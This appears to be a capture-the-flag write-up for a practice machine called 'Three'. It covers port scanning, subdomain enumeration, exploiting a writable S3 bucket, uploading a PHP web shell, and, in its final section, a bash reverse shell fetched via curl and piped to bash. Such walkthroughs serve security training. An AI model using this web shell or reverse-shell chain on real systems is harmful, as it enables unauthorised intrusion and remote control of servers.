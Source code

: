 # Three Machine 

## Initial Enumeration

- Pinged the target to confirm it was up.
- Ran a full port scan with service/version detection:
  ```bash
  nmap -p- -sC -sV --min-rate 1000 10.129.227.248
  ```
- Warning observed:
  ```
  Warning: 10.129.227.248 giving up on port because retransmission cap hit (10).
  ```
  Likely due to high packet rate causing dropped responses or a firewall.

- Discovered open ports:
  - 22/tcp - OpenSSH
  - 80/tcp - HTTP
- OS appears to be Linux.

## Web Enumeration

- Tried logging into SSH using default creds (admin/root) — no success.
- Opened the web service in a browser. Observed client-side routes like `/#contact`.

## Deeper Inspection

- Submitting the contact form triggers a request to a non-existent PHP file.
- Found an email on the page using domain `thetoppers.htb`.
- Added the domain to `/etc/hosts`:
  ```
  10.129.227.248 thetoppers.htb
  ```

## Subdomain Enumeration

- Since directory brute-forcing didn’t yield results, switched to vhost enumeration.
- Used Gobuster for subdomain enumeration:
  ```bash
  gobuster vhost -u http://thetoppers.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
  ```
- Discovered: `s3.thetoppers.htb`
- Added to `/etc/hosts`:
  ```
  10.129.227.248 s3.thetoppers.htb
  ```

## Accessing the S3 Bucket

- Installed and configured `awscli` to access S3.
- Found `index.php` and `.htaccess` — indicates web server is serving from S3.

## Uploading a Web Shell

- Created a web shell:
  ```bash
  echo '<?php system($_GET["cmd"]); ?>' > shell.php
  ```
- Uploaded `shell.php` to the S3 bucket.

- Accessed shell:
  ```
  http://thetoppers.htb/shell.php?cmd=id
  ```
- Confirmed remote command execution.

## Reverse Shell

1. Opened a listener:
   ```bash
   nc -lvnp 1337
   ```

2. Created a reverse shell script:
   ```bash
   echo 'bash -i >& /dev/tcp/<YOUR_IP>/1337 0>&1' > shell.sh
   ```

3. Hosted it using a Python HTTP server:
   ```bash
   python3 -m http.server 8000
   ```

4. Triggered it via:
   ```
   http://thetoppers.htb/shell.php?cmd=curl%20http://<YOUR_IP>:8000/shell.sh%20|%20bash
   ```

- Got shell access on the listener and retrieved the flag.
